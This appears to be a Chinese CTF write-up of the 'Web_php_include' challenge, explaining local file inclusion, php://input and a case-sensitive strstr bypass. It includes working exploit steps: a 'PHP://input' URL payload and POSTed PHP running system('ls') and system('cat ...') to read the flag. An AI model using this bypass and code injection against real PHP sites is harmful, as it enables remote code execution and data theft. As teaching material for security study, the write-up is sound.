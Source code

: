 # Web_php_include
- 对于include函数的一种攻击
- 涉及到php输入流控制，strstr函数的绕过，以及LFI的基本内容
- 首先先看题目代码
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
- 这题需要通过$page获得flag
## php输入流控制
- 这里有详细解析http://www.nowamagic.net/academy/detail/12220520
- 其实就是通过POST方法获取输入流，那么结合include函数的话，就可以达到自己写php当成文件，使php执行include函数
## strstr绕过
- 区分大小写
## LFI
- 就是通过include函数和require函数执行文件，那么通过这两个东西可以达到一些攻击的方式
## 解题
- 首先需要通过page注入一段恶意代码，也就是php输入流：
```php
http://220.249.52.133:30537/?page=PHP://input
```
- PHP是用来绕过strstr的
- 然后就可以通过POST方法把想要传的数据传到input中，再传给page就可以了
- POST：
```php
<?php
system('ls');
?>
```
- 得到：
```
fl4gisisish3r3.php
index.php
phpinfo.php
```
- 再：
```php
<?php
system('cat fl4gisisish3r3.php');
?>
```
- 得到：
```php
$flag="ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}";
```
## 总结
1. php输入流的含义以及操作方法
2. strstr区分大小写，利用这点进行绕过
3. LFI的基本原理

